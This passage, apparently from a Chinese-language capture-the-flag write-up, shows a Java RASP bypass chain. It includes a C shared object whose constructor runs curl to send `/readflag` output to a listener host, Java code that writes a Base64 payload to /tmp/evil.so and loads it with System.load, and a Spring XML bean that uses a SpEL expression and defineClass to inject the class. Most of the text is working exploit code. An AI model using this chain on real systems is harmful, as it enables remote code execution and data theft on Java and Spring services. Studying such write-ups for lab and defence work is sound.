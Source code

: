 ```Java
            return null;
        }
        byte[] bytes = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }
}
```

第二种, RASP 并没有拦截 `System.load` 方法, 所以可以直接写一个 so 然后上传加载即可

```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("curl host.docker.internal:4444 -d \"`/readflag`\"");
}
```

编译

```Bash
gcc -shared -fPIC exp.c -o exp.so
```

Java 代码

```Java
package com.example;

import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class Evil {
    public Evil() throws Exception {
        String data = "PAYLOAD";
        String filename = "/tmp/evil.so";
        Files.write(Paths.get(filename), Base64.getDecoder().decode(data));
        System.load(filename);
    }
}
```

最后拿到 class 字节码, 通过 Spring XML 配置文件调用 SPEL 表达式进行 defineClass

```XML
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="data" class="java.lang.String">
        <constructor-arg><value>PAYLOAD</value></constructor-arg>
    </bean>
    <bean class="#{T(org.springframework.cglib.core.ReflectUtils).defineClass('com.example.Evil',T(org.springframework.util.Base64Utils).decodeFromString(data),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).newInstance()}"></bean>
</beans>
```
